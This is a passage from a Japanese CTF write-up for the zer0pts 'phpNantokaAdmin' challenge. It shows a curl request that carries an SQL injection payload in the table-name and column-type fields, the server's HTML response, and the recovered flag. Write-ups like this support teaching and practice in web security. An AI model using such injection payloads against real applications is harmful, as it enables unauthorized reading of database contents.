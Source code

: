 ```
        </tr>
        <tr>
          <td></td>
        </tr>
        <tr>
          <td><input type="text" name="values[]"></td>
        </tr>
      </table>
      <input type="submit" value="Insert values">
    </form>
  </body>
</html>
```

`sql` と `sqlite_master` をそれぞれフラグのカラム名とテーブル名に変えて実行するとフラグを手に入れることができます。

```
$ curl 'http://3.112.201.75:8002/?page=create' -b cookie.txt -c cookie.txt -L -H 'Content-Type: application/x-www-form-urlencoded' --data 'table_name=t+AS+SELECT+flag_2a2d04c3+%5B&columns%5B0%5D%5Bname%5D=abc&columns%5B0%5D%5Btype%5D=%5DFROM+flag_bf1811da%3B'
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <link rel="stylesheet" href="style.css">
    <script src="https://code.jquery.com/jquery-3.4.1.min.js" integrity="sha256-CSXorXvZcTkaix6Yvo6HppcZGetbYMGWSFlBw8HfCJo=" crossorigin="anonymous"></script>
    <title>phpNantokaAdmin</title>
  </head>
  <body>
    <h1>phpNantokaAdmin</h1>
    <h2>t (<a href="?page=delete">Delete table</a>)</h2>
    <form action="?page=insert" method="POST">
      <table>
        <tr>
          <th> (dummy1 TEXT, dummy2 TEXT, `abc` </th>
        </tr>
        <tr>
          <td>zer0pts{Smile_Sweet_Sister_Sadistic_Surprise_Service_SQL_Injection!!}</td>
        </tr>
        <tr>
          <td><input type="text" name="values[]"></td>
        </tr>
      </table>
      <input type="submit" value="Insert values">
    </form>
  </body>
</html>
```

```
zer0pts{Smile_Sweet_Sister_Sadistic_Surprise_Service_SQL_Injection!!}
```

---
